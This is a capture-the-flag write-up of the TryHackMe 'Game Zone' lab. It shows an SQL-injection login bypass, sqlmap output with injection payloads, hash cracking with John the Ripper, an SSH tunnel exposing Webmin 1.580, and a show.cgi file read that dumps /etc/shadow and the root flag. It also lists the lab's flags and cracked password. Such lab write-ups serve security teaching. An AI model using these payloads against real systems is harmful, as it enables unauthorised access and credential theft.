

# Game Zone

Learn to hack into this machine. Understand how to use SQLMap, crack some passwords, reveal services using a reverse SSH tunnel and escalate your privileges to root!

[Game Zone](https://tryhackme.com/room/gamezone)

## Topic's

- SQL Injection
- Brute Forcing (Hash)
- SSH Tunneling
- Privileged Remote and Client-Side Command Execution

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Deploy the vulnerable machine

This room will cover SQLi (exploiting this vulnerability manually and via SQLMap), cracking a users hashed password, using SSH tunnels to reveal a hidden service and using a metasploit payload to gain root privileges.

Deploy the machine and access its web server.

`No answer needed`

What is the name of the large cartoon avatar holding a sniper on the forum?

`Agent 47`

## Task 2 Obtain access via SQLi

In this task you will understand more about SQL (structured query language) and how you can potentially manipulate queries to communicate with the database.

SQL is a standard language for storing, editing and retrieving data in databases. A query can look like so:

```sql
SELECT * FROM users WHERE username = :username AND password := password
```

In our GameZone machine, when you attempt to login, it will take your inputted values from your username and password, then insert them directly into the query above. If the query finds data, you'll be allowed to login otherwise it will display an error message.

Here is a potential place of vulnerability, as you can input your username as another SQL query. This will take the query write, place and execute it.

`No answer needed`

Lets use what we've learnt above, to manipulate the query and login without any legitimate credentials.

If we have our username as admin and our password as: `' or 1=1 -- -` it will insert this into the query and authenticate our session.

The SQL query that now gets executed on the web server is as follows:

```sql
SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -
```

The extra SQL we inputted as our password has changed the above query to break the initial query and proceed (with the admin user) if 1==1, then comment the rest of the query to stop it breaking.

`No answer needed`

GameZone doesn't have an admin user in the database, however you can still login without knowing any credentials using the inputted password data we used in the previous question.

Use `' or 1=1 -- -` as your username and leave the password blank.

When you've logged in, what page do you get redirected to?

`portal.php`

## Task 3 Using SQLMap

SQLMap is a popular open-source, automatic SQL injection and database takeover tool. This comes pre-installed on all version of [Kali Linux](https://tryhackme.com/rooms/kali) or can be manually downloaded and installed [here](https://github.com/sqlmapproject/sqlmap).

There are many different types of SQL injection (boolean/time based, etc..) and SQLMap automates the whole process trying different techniques.

We're going to use SQLMap to dump the entire database for GameZone.

Using the page we logged into earlier, we're going point SQLMap to the game review search feature.

First we need to intercept a request made to the search feature using [BurpSuite](https://tryhackme.com/room/learnburp).


Save this request into a text file. We can then pass this into SQLMap to use our authenticated user session.


- **-r** uses the intercepted request you saved earlier
- **--dbms** tells SQLMap what type of database management system it is
- **--dump** attempts to outputs the entire database


SQLMap will now try different methods and identify the one thats vulnerable. Eventually, it will output the database.

```
kali@kali:~/CTFs/tryhackme/Game Zone$ sqlmap -r r.txt --dbms=mysql --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.9#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:18:52 /2020-11-18/

[23:18:52] [INFO] parsing HTTP request from 'r.txt'
[23:18:54] [INFO] testing connection to the target URL
[23:18:54] [INFO] checking if the target is protected by some kind of WAF/IPS
[23:18:54] [INFO] testing if the target URL content is stable
[23:18:54] [INFO] target URL content is stable
[23:18:54] [INFO] testing if POST parameter 'searchitem' is dynamic
[23:18:55] [WARNING] POST parameter 'searchitem' does not appear to be dynamic
[23:18:55] [INFO] heuristic (basic) test shows that POST parameter 'searchitem' might be injectable (possible DBMS: 'MySQL')
[23:18:55] [INFO] heuristic (XSS) test shows that POST parameter 'searchitem' might be vulnerable to cross-site scripting (XSS) attacks
[23:18:55] [INFO] testing for SQL injection on POST parameter 'searchitem'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
[23:18:58] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[23:18:59] [WARNING] reflective value(s) found and filtering out
[23:18:59] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[23:18:59] [INFO] testing 'Generic inline queries'
[23:18:59] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[23:19:02] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[23:19:03] [INFO] POST parameter 'searchitem' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --string="11")
[23:19:03] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[23:19:03] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[23:19:03] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[23:19:03] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[23:19:03] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[23:19:03] [INFO] POST parameter 'searchitem' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable
[23:19:03] [INFO] testing 'MySQL inline queries'
[23:19:03] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[23:19:03] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[23:19:03] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[23:19:03] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[23:19:03] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[23:19:03] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[23:19:03] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[23:19:13] [INFO] POST parameter 'searchitem' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[23:19:14] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[23:19:14] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[23:19:14] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[23:19:14] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[23:19:14] [INFO] target URL appears to have 3 columns in query
[23:19:14] [INFO] POST parameter 'searchitem' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[23:19:14] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval

sqlmap identified the following injection point(s) with a total of 88 HTTP(s) requests:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-9825' OR 6756=6756#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=asd' AND GTID_SUBSET(CONCAT(0x71766b7671,(SELECT (ELT(9889=9889,1))),0x717a6a7871),9889)-- LkWM

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=asd' AND (SELECT 7029 FROM (SELECT(SLEEP(5)))XsZa)-- xNqa

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: searchitem=asd' UNION ALL SELECT NULL,NULL,CONCAT(0x71766b7671,0x51684e765374496678556c694b5147494d786c42476c4573746f584d575143526965614d6253496e,0x717a6a7871)#
---
[23:22:09] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[23:22:10] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[23:22:10] [INFO] fetching current database
[23:22:10] [INFO] fetching tables for database: 'db'
[23:22:10] [INFO] fetching columns for table 'post' in database 'db'
[23:22:10] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[23:22:10] [INFO] table 'db.post' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.163.58/dump/db/post.csv'
[23:22:10] [INFO] fetching columns for table 'users' in database 'db'
[23:22:10] [INFO] fetching entries for table 'users' in database 'db'
[23:22:10] [INFO] recognized possible password hashes in column 'pwd'

do you want to crack them via a dictionary-based attack? [Y/n/q]
[23:22:33] [INFO] using hash method 'sha256_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
>
[23:22:39] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N]
[23:22:42] [INFO] starting dictionary-based cracking (sha256_generic_passwd)
[23:22:42] [INFO] starting 4 processes
[23:23:07] [WARNING] no clear password(s) found
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

[23:23:07] [INFO] table 'db.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.163.58/dump/db/users.csv'
[23:23:07] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.163.58'

[*] ending @ 23:23:07 /2020-11-18/
```

In the users table, what is the hashed password?

`ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`

What was the username associated with the hashed password?

`agent47`

What was the other table name?

`post`

## Task 4 Cracking a password with JohnTheRipper

John the Ripper (JTR) is a fast, free and open-source password cracker. This is also pre-installed on all Kali Linux machines.

We will use this program to crack the hash we obtained earlier. JohnTheRipper is 15 years old and other programs such as HashCat are one of several other cracking programs out there.

This program works by taking a wordlist, hashing it with the specified algorithm and then comparing it to your hashed password. If both hashed passwords are the same, it means it has found it. You cannot reverse a hash, so it needs to be done by comparing hashes.

If you are using a low-powered laptop, you can deploy a high spec'd Kali Linux machine on TryHackMe and control it in your browser.

Deploy your own [here](https://tryhackme.com/room/kali)!

Once you have JohnTheRipper installed you can run it against your hash using the following arguments:


- **hash.txt** - contains a list of your hashes (in your case its just 1 hash)
- **--wordlist** - is the wordlist you're using to find the dehashed value
- **--format** - is the hashing algorithm used. In our case its hashed using SHA256.

What is the de-hashed password?

```
ali@kali:~/CTFs/tryhackme/Game Zone$ john agent47.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
1g 0:00:00:00 DONE (2020-11-18 23:25) 1.136g/s 3351Kp/s 3351Kc/s 3351KC/s vimivi..vainlove
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```

`videogamer124`

Now you have a password and username. Try SSH'ing onto the machine. What is the user flag?

```
kali@kali:~/CTFs/tryhackme/Game Zone$ ssh agent47@10.10.163.58
The authenticity of host '10.10.163.58 (10.10.163.58)' can't be established.
ECDSA key fingerprint is SHA256:mpNHvzp9GPoOcwmWV/TMXiGwcqLIsVXDp5DvW26MFi8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.163.58' (ECDSA) to the list of known hosts.
agent47@10.10.163.58's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
agent47@gamezone:~$ ls -la
total 28
drwxr-xr-x 3 agent47 agent47 4096 Aug 16  2019 .
drwxr-xr-x 3 root    root    4096 Aug 14  2019 ..
lrwxrwxrwx 1 root    root       9 Aug 16  2019 .bash_history -> /dev/null
-rw-r--r-- 1 agent47 agent47  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 agent47 agent47 3771 Aug 14  2019 .bashrc
drwx------ 2 agent47 agent47 4096 Aug 16  2019 .cache
-rw-r--r-- 1 agent47 agent47  655 Aug 14  2019 .profile
-rw-rw-r-- 1 agent47 agent47   33 Aug 16  2019 user.txt
agent47@gamezone:~$ cat user.txt
649ac17b1480ac13ef1e4fa579dac95c
```

`649ac17b1480ac13ef1e4fa579dac95c`

## Task 5 Exposing services with reverse SSH tunnels


Reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.

**-L** is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do `ssh -L 9000:imgur.com:80 user@example.com`. Going to localhost:9000 on your machine, will load imgur traffic using your other server.

**-R** is a remote tunnel (YOU --> CLIENT). You forward your traffic to the other server for others to view. Similar to the example above, but in reverse.

We will use a tool called **ss** to investigate sockets running on a host.

If we run `ss -tulpn` it will tell us what socket connections are running

| Argument | Description                        |
| -------- | ---------------------------------- |
| -t       | Display TCP sockets                |
| -u       | Display UDP sockets                |
| -l       | Displays only listening sockets    |
| -p       | Shows the process using the socket |
| -n       | Doesn't resolve service names      |

How many TCP sockets are running?

```
agent47@gamezone:~$ ss -tulpn
Netid  State      Recv-Q Send-Q                                Local Address:Port                                               Peer Address:Port
udp    UNCONN     0      0                                                 *:10000                                                         *:*
udp    UNCONN     0      0                                                 *:68                                                            *:*
tcp    LISTEN     0      80                                        127.0.0.1:3306                                                          *:*
tcp    LISTEN     0      128                                               *:10000                                                         *:*
tcp    LISTEN     0      128                                               *:22                                                            *:*
tcp    LISTEN     0      128                                              :::80                                                           :::*
tcp    LISTEN     0      128                                              :::22                                                           :::*
```

`5`

We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, Using an SSH Tunnel we can expose the port to us (locally)!

From our local machine, run `ssh -L 10000:localhost:10000 <username>@<ip>`

Once complete, in your browser type "localhost:10000" and you can access the newly-exposed webserver.


What is the name of the exposed CMS?

`Webmin`

What is the CMS version?



`1.580`

## Task 6 Privilege Escalation with Metasploit

Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine.

[http://www.americaninfosec.com/research/dossiers/AISG-12-001.pdf](http://www.americaninfosec.com/research/dossiers/AISG-12-001.pdf)

What is the root flag?

[http://localhost:10000/file/show.cgi/etc/shadow](http://localhost:10000/file/show.cgi/etc/shadow)

```
root:$6$Llhg4MdC$f9TRe8xLelwHpj5JvCNprpWBnHppEnryPo1mGiKW2U71SpTVZRRE0f7/3kZsIwNsRpcc7GlcVSnuYfiN5n7Yw.:18124:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
lxd:*:18122:0:99999:7:::
messagebus:*:18122:0:99999:7:::
uuidd:*:18122:0:99999:7:::
dnsmasq:*:18122:0:99999:7:::
sshd:*:18122:0:99999:7:::
agent47:$6$QRnDATVa$Dhv2K3GVe40X5hxB/vrdBeBDOYwtwGzFZfEL6/MdvOyO6S2w6pmaZy/h4j.3DKrCGtXoqkVTy.PDJsuOeZ6In1:18124:0:99999:7:::
mysql:!:18122:0:99999:7:::
```

[http://localhost:10000/file/show.cgi/root/root.txt](http://localhost:10000/file/show.cgi/root/root.txt)

`a4b945830144bdd71908d12d902adeee`
